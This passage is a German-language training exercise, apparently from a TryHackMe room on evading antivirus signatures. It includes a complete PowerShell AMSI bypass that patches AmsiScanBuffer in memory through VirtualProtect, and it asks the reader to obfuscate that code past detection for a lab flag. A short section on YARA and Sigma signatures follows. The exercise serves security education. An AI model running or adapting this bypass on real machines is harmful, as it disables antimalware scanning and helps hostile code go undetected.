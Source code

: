 Dies unterscheidet sich kaum von den in den [Verschleierungsprinzipien](https://tryhackme.com/r/room/obfuscationprinciples) diskutierten Konzepten, wird jedoch auf eine spezifische Situation angewendet.
##
Verwenden Sie das Wissen, das Sie während dieser Aufgabe erlangt haben, um das folgende PowerShell-Snippet zu verschleiern, indem Sie AmsiTrigger zur Visualisierung von Signaturen verwenden.
```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer"
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $A);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
Nach ausreichender Verschleierung, reichen Sie das Snippet auf dem Webserver unter `http://MACHINE_IP/challenge-1.html` ein. Die Datei muss als `challenge-1.ps1` gespeichert werden. Wenn sie korrekt verschleiert ist, erscheint eine Flagge in einem Alarm-Popup.

## Fragen:
Welche Kennung wird gefunden, nachdem ein ordnungsgemäß obfuszierter Ausschnitt hochgeladen wurde?
```

```

# Task 5 - Statische eigenschaftsbasierte Signaturen
Verschiedene Erkennungsmaschinen oder Analysten können verschiedene Indikatoren in Betracht ziehen, anstatt nur auf Zeichenfolgen oder statische Signaturen zu setzen, um ihre Hypothese zu unterstützen. Signaturen können an mehrere Dateieigenschaften angehängt werden, darunter Datei-Hash, Entropie, Autor, Name oder andere identifizierbare Informationen, die einzeln oder in Kombination verwendet werden können. Diese Eigenschaften werden oft in Regelwerken wie **YARA** oder **Sigma** verwendet.
